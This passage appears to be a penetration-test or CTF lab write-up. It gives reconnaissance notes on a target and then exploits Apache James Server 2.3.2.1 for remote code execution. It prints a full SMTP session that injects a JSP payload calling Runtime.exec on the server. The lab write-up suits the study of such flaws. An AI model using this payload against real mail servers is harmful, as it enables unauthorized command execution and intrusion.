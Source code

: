 **Strategic considerations:**
- The **FTP with anonymous access** is an ideal starting point for reconnaissance and information gathering without generating noise.    
- Apache James 2.3.2.1 exposes **SMTP and POP3**, which, when used together, enable direct exploitation:    
    - Create account via telnet        
    - Send payload through email        
    - Execute commands from POP3 → RCE        
- The website on port 80 returns a title of _"Web Challenges"_, suggesting deliberately vulnerable content. The existence of the `/cyberacademy` path in `robots.txt` **indicates an interesting route to investigate**.    
- **SSH could be leveraged later on**, for example, for post-exploitation if credentials are obtained.
----------

**Exploitation of Apache James Server 2.3.2.1 (SMTP / POP3)**

🎯**Objective**

The goal of this exploitation is to demonstrate a **Remote Code Execution (RCE)** in **Apache James Server 2.3.2.1** by abusing its email sending and receiving logic.

Three exposed services are leveraged:
- *Port 4555* → James administration console.    
- *Port 25* → *SMTP* service (sending emails).    
- *Port 110* → *POP3* service (receiving emails).    

⚙️ **Attack vector**
The attack involves sending a malicious email containing a JSP payload, which will later be processed by the James server. This allows code injection and remote execution.

Malicious email :

```ruby
HELO kali
MAIL FROM:<hola@localhost>
RCPT TO:<hola@localhost>
DATA   From: evil    Subject: exploit test
<%   
Runtime.getRuntime().exec("touch /tmp/pwned.txt");
%>
.
QUIT  
```

✅**Expected outcome**
The execution of this payload creates the file `/tmp/pwned.txt` on the target server, proving the ability to execute arbitrary commands remotely.

![Successful ping test](/assets/images/posts/atrium-report/telnet-conect.png)
